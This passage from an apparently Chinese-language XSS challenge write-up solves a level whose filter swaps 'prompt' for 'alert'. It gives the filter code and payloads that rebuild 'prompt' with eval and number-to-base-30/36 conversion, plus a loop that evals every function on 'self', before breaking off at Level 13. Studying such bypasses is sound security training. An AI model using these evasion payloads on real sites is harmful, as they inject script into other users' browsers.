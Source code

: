 * * *

该题主要是利用 toString()解答。eval 可以直接执行字符串。如下：

```
parseInt("prompt",36); //1558153217

```

因此，

*   可以使用`eval((1558153217).toString(36))(1)`

*   还可以`eval(1558153217..toString(36))(1)`

*   还可以`eval(630038579..toString(30))(1)`

### 代码

```
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}

```

### 答案

32 个字符通杀所有浏览器

```
eval(630038579..toString(30))(1)

// Hexadecimal alternative (630038579 == 0x258da033):
eval(0x258da033.toString(30))(1)

```

还有一种比较暴力的方法是，通过循环执行 self 里面的函数，来查找 prompt 执行(firfox 下测试有效)

```
for((i)in(self))eval(i)(1)

```

## Level 13

* * *

这个题目涉及到 js 中的`__proto__`，每个对象都会在其内部初始化一个属性，就是`__proto__`，当我们访问对象的属性时，如果对象内部不存在这个属性，那么就会去`__proto__`里面找这个属性，这个`__proto__`又会有自己的`__proto__`，一直这样找下去。可以再 Chrome 控制台中测试：
